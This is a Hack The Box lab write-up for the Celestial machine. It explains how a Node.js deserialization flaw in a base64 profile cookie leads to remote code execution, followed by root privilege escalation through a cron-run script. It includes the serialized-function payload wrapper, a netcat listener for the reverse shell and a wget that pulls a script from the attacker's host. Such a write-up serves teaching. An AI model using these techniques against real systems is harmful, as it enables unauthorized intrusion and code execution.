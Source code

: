 ![](../img/Celestial Writeup/1__KAEYFQ4CuPhW2AgwsJGsA.png)

# Celestial Write-up (HTB)

_This is a write-up for the recently retired Celestial machine on the [Hack The Box](https://www.hackthebox.eu) platform. If you don’t already know, Hack The Box is a website where you can further your cyber security knowledge by hacking into a range of different machines. At any stage in the write-up, you can click on a command to be redirected to a page which describes what the command does._

TL;DR: Node.js Serialization Vulnerabilities. | Celestial was a really fun box to do, since it was very well-structured and there was little guesswork involved. Although the priv-esc was a simple root crontab exploit, I learnt a lot about serialization vulnerabilities whilst getting the user flag.

#### PART ONE: USER

Our initial nmap scan revealed only one open port:

![[nmap -sV -sC -oN nmap.log 10.10.10.85](../img/Celestial Writeup/1_8y2y6rzYp_nylAb6lRDt5A.png)](https://cdn-images-1.medium.com/max/1088/1*8y2y6rzYp_nylAb6lRDt5A.png)

We now know that the server is running Node.js Express, with port 3000 service HTTP. Right, so we’ve got a page that we can open in the browser, but no SSH port (or anything to that effect), so we know straight away that we don’t have to be on the lookout for credentials or SSH keys.

At first, visiting the page seems to just throw a 404 error:

![“404”](../img/Celestial Writeup/1_pzfpJugYk1bVFXdaqd3_dg.png)

However, on refresh, we are presented with something entirely different:

![“Hey Dummy 2 + 2 is 22”](../img/Celestial Writeup/1_fqXp8m4j_r0gKGm9VfQeng.png)

From this, we can work out that there is clearly some form of cookie being given and then used here.

Let’s see what Burp has to say about this:

![We have been given a profile cookie.](../img/Celestial Writeup/1_P6JSh8bV_HOwa6j7iUXNYw.png)

We can see the following cookie:

```
eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D
```

I then sent this request onto the Repeater with CTRL+R, to manipulate the cookie a little.

Once there, we can decode the cookie by highlighting it and pressing CTRL+SHIFT+U (to URL decode it), and CTRL+SHIFT+B (to Base64 decode it).

![We now have the decoded cookie.](../img/Celestial Writeup/1_MVtxA1HZdVSQ7oR-77vrgg.png)

As shown, the cookie is:

```
{“username”:”Dummy”,”country”:”Idk Probably Somewhere Dumb”,”city”:”Lametown”,”num”:”2"}
```

So, we can manipulate this, re-encode it and then send it back to receive a matching output:

![We changed the “num” value to a bunch of 9s.](../img/Celestial Writeup/1_gK2aAYz2sa5mvcmURK0umw.png)

I then spent some time messing around with different values, looking for some form of command injection, however nothing was immediately visible.

After some time blindly trying to inject something, I searched for related exploits online:

![The results all point to deserialization exploits.](../img/Celestial Writeup/1_izoSSnomVMGtga_oqR_bUw.png)

Well, this looks promising enough.

The [first link](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) contains a fairly in-depth explanation of the exploit, but I will briefly go over the steps here too.

We first need to generate a payload using a script that can be found [here](https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py), as shown:

![We are told the program’s syntax by running “python nodejsshell.py”.](../img/Celestial Writeup/1_G9GTdEHAHWWxXk3enRqPuA.png)

We then have to serialize this output. Since I couldn’t find an easy way to do this, I instead just did it manually. I know this sounds dumb, but it’s actually way easier than it sounds. Essentially, we just have to add…

```
**{“rce”:”_$$ND_FUNC$$_function (){**
```

…to the start of the string, and add…

```
**}()"}**
```

…to the end.

We then copy this serialized string and put it in as the profile cookie in Burp, and Base64/URL encode it:

![CTRL+B & CTRL+U.](../img/Celestial Writeup/1_AvCc9VcWkiXmHzT2uJJK6w.png)

Sending this doesn’t return an output, and so it may have executed code instead.

I then opened up a simple netcat listener to catch the callback, before launching the request again:

![[nc -nlvp 1337](../img/Celestial Writeup/1_80rFe1WzP2fXmkqRrkbMAw.png)](https://cdn-images-1.medium.com/max/976/1*80rFe1WzP2fXmkqRrkbMAw.png)

And with that, we’re connected! We can then launch a proper terminal with python:

![The Python command to spawn the TTY shell was found [here](../img/Celestial Writeup/1_-yWLgPklsYE5qfGbxylbsg.png).](https://cdn-images-1.medium.com/max/732/1*-yWLgPklsYE5qfGbxylbsg.png)

#### PART TWO: ROOT

Interestingly, there is another file in the Documents folder:

This script contains nothing but one line.

```
$ cat script.py

print "Script is running..."
```

We’ve seen similar scripts in previous boxes, and these scripts all seem to run as root. As such, I wrote a short script to read the root flag, and write it to a file:

![This i) opens the root flag and saves the content, and ii) writes the contents to a file.](../img/Celestial Writeup/1_QGCeluEOLEozu2zMdNCl4w.png)

I chose a really obscure directory to write the flag to because the machine is public, and so I didn’t want other people stumbling across the flag before I had time to delete it.

I then downloaded this to the box by serving it via a SimpleHTTPServer:

![[python -m SimpleHTTPServer 1338](../img/Celestial Writeup/1_P1V5r9RhtsNILecfrU5kWA.png) // [wget http://10.10.14.141:1338/script.py](https://www.explainshell.com/explain?cmd=wget+http%3A%2F%2F10.10.14.141%3A1338%2Fscript.py)](https://cdn-images-1.medium.com/max/878/1*P1V5r9RhtsNILecfrU5kWA.png)

After around a minute, the root flag appeared in the **errors.log** file that I specified in the script:

![](../img/Celestial Writeup/1_HWnUKdyeLAaKE4f2GNCs_w.png)

As such, we have the root flag!